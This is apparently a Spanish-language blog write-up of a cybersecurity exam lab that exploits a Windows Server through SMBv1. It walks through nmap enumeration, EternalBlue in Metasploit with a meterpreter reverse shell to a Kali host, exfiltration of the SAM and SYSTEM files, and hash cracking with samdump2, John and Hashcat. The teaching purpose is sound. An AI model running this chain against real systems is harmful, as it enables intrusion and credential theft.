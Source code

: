 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [ciberseguridad, seguridad informatica]
tags: [smb, reconnaissance, weaponization, exploitation, ssh]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

Inicia Metasploit:
    msfconsole
Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
Configura los parámetros necesarios:

![alt text](/assets/images/2.png)

### Explicación de los parámetros:
RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt

Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt

O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

### Explicación:
Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

